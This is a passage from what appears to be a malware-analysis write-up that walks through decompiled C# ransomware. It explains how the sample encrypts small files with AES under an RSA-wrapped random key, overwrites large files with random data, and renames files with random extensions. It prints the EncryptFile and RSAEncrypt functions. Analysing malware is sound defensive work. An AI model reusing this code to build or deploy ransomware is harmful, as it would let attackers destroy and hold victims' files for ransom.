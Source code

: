 the last part of this is about checking the size of the files is the file size is less than `2117152`  which is approximatly 2MB  `if (fileInfo.Length < 2117152L)` 
it encrypt the file using `EncrypotFile` which we will see later in the post .
the second if condition is about checking again the size of the file if it's bigger than 200000000bytes it generate a random a strng of the length between 200000000 and 300000000 bytes, than it encodes it using `randomEncode` method . after the encoding it writes it to the file using the `WriteAllText`  than appending a random 4 characters extension generated by the `RandomStringForExtension`  .
.

#### file Encryption 
```cs
analyse this : 	public static void EncryptFile(string file)
		{
			byte[] bytesToBeEncrypted = File.ReadAllBytes(file);
			string text = Program.CreatePassword(20);
			byte[] bytes = Encoding.UTF8.GetBytes(text);
			byte[] inArray = Program.AES_Encrypt(bytesToBeEncrypted, bytes);
			File.WriteAllText(file, "<EncryptedKey>" + Program.RSAEncrypt(text, Program.rsaKey()) + "<EncryptedKey>" + Convert.ToBase64String(inArray));
			File.Move(file, file + "." + Program.RandomStringForExtension(4));
		}

```

this function is the function that encrypt the files it takes file as an input and reads all the file  bytes `bytesToBeEncrypted` , than it creates a password of length 20 using the `CreatePassword` method _ we will cover it in other section _  , this password is converted to bytes array using UTF-8 encoding . the `bytesToBeEncrypted`  is using AES encryption algorithm and the bytes password using `AES_Encrypt`  method _ we will cover it in other secion _  . the last part is about moving files using `move` and appending new extension using  `RandomStringForExtension` with 4 character string  .

#### RSA encryption

```cs
	// Token: 0x06000010 RID: 16 RVA: 0x00002764 File Offset: 0x00000964
		public static string RSAEncrypt(string textToEncrypt, string publicKeyString)
		{
			byte[] bytes = Encoding.UTF8.GetBytes(textToEncrypt);
			string result;
			using (RSACryptoServiceProvider rsacryptoServiceProvider = new RSACryptoServiceProvider(1024))
			{
				try
				{
					rsacryptoServiceProvider.FromXmlString(publicKeyString.ToString());
					byte[] inArray = rsacryptoServiceProvider.Encrypt(bytes, true);
					string text = Convert.ToBase64String(inArray);
					result = text;
				}
				finally
				{
					rsacryptoServiceProvider.PersistKeyInCsp = false;
				}
			}
			return result;
		}

```
